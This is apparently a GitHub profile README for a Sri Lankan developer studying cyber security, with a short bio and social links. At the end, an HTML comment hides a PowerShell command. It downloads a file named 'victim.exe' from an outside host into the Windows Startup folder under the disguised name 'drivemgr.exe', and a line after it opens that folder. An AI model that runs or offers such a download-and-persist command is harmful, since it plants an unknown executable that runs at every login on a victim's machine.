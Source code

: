 <img src="./assets/banner.png">

<h1 align="center">Hey there, I'm Heshan Thenura Kariyawasam <br>🌱Based in Sri Lanka 🇱🇰</h1>

```bash
heshanthenura@github:~$ cat aboutme.txt

self-taught developer
currently pursuing BSc (Hons) in Information Technology specialising in Cyber Security
```


## 🤙 Let's Connect & Collaborate
I'm always open to ideas, collabs, or just a good tech convo. Whether you're building something cool, learning something new, or just exploring the world of code, reach out. Let’s build, break, fix, and learn together.

<div align="center"><a href="https://twitter.com/Heshantk"><img width="50px" src="./assets/icons8-twitter.svg"></a><a href="https://www.linkedin.com/in/heshanthenura"><img width="50px" src="./assets/icons8-linkedin.svg"></a><a href="https://www.instagram.com/heshan_thenura/"><img width="50px" src="./assets/icons8-instagram.svg"></a><a href="https://youtube.com/@heshanthenura"><img width="50px" src="./assets/icons8-youtube.svg"></a><a href="https://www.tiktok.com/@heshanthenura"><img width="50px" src="./assets/icons8-tiktok.svg"></a></div>

<h1 align="center"><a href="mailto:heshanthenura@gmail.com">heshanthenura@gmail.com</a></h1>

<!--
<h1 align="center">Heshan Thenura Kariyawasam</h1>

## I am a self-taught programmer from Sri Lanka

Mostly I prefer Backend development.

### My Higher Education

- Pure Mathematics
- Applied Mathematics
- Physics
- Information and Communication Technology

### Frameworks that I work with

- JavaFX
- Spring Boot

### Technologies that I use

- Linux
- Oracle Cloud
- MySQL
- SQLite
- H2
- Git
- WebRTC
- Socket
- WebSocket

[![Heshan's top languages](https://github-readme-stats.vercel.app/api/top-langs/?username=heshanthenura&theme=blue-green)

### If you're interested in custom application development or would like to discuss a project, please don't hesitate to contact me.


<ul>
    <li><a href="https://twitter.com/Heshantk">Twitter</a></li>
    <li><a href="https://www.linkedin.com/in/heshanthenura">LinkedIn</a></li>
    <li><a href="https://www.instagram.com/heshan_thenura/">Instagram</a></li>
    <li><a href="https://youtube.com/@heshanthenura">YouTube</a></li>
    <li><a href="https://www.tiktok.com/@heshanthenura">TikTok</a></li>
</ul>


### [E-Mail](mailto:heshanthenura@protonmail.com) heshanthenura@protonmail.com -->

<!-- ```bash
 (new-object Net.WebClient).DownloadFile('https://dlsv37.sonicbit.net/file/dl2/MUVUOGlHNW9oOGJ4Y3h5M0FjUzRMa3lsbHBjbGQzWDF2bG9LZmdiVkVMU1FmeEovVTU0UWY0UFE5b3JMMVJQZDg4cVJXYWdRQlJmWnpVQ1Vkbm1tWEE9PQ==/victim.exe', "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\drivemgr.exe")

https://dlsv37.sonicbit.net/file/dl2/MUVUOGlHNW9oOGJ4Y3h5M0FjUzRMa3lsbHBjbGQzWDF2bG9LZmdiVkVMU1FmeEovVTU0UWY0UFE5b3JMMVJQZDg4cVJXYWdRQlJmWnpVQ1Vkbm1tWEE9PQ==/victim.exe

explorer %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
``` -->

